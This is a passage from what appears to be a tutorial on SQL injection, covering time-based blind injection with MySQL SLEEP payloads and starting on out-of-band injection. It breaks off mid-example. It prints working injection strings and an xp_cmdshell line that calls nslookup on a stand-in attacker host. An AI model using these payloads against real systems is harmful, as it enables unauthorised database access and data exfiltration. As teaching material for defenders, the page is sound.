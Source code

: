 
##### Time-based Blind SQL Injection

**Time-based blind SQL injection** relies on the database pausing for a specified amount of time to infer information.

**Example Demonstration:**

1. **Vulnerable Query:**
    
    ```sql
    SELECT title FROM products WHERE id = '1';
    ```
    
2. **Injected Input:**
    
    Suppose the attacker inputs: `1' AND IF(1=1, SLEEP(5), 0);--` for a MySQL database. The resulting query would be:
    
    ```sql
    SELECT title FROM products WHERE id = '1' AND IF(1=1, SLEEP(5), 0);--';
    ```
    
3. **Explanation:**
    
    * `1' AND IF(1=1, SLEEP(5), 0);--` is a malicious input.
        
    * `IF(1=1, SLEEP(5), 0)` makes the database sleep (pause) for 5 seconds if the condition `1=1` is true.
        
    * If the application response is delayed by 5 seconds, the attacker knows the condition is true.
        
4. **Testing False Condition:**
    
    The attacker then inputs: `1' AND IF(1=2, SLEEP(5), 0);--`. The resulting query would be:
    
    ```sql
    SELECT title FROM products WHERE id = '1' AND IF(1=2, SLEEP(5), 0);--';
    ```
    
    * `1=2` is false, so the database does not sleep.
        
    * If the application response is immediate, the attacker knows the condition is false.
        

#### 3\. Out-of-band SQL Injection

Out-of-band SQL injection involves the database server making a connection to an external server controlled by the attacker. This type of attack is less common and depends on specific features being enabled on the database server.

**Example Demonstration:**

1. **Vulnerable Query:**
    
    ```sql
    SELECT title FROM products WHERE id = '1';
    ```
    
2. **Injected Input:**
    
    Suppose the attacker inputs: `1; EXEC xp_cmdshell('nslookup`[`attacker.com`](http://attacker.com)`');--` for a Microsoft SQL Server. The resulting query would be:
    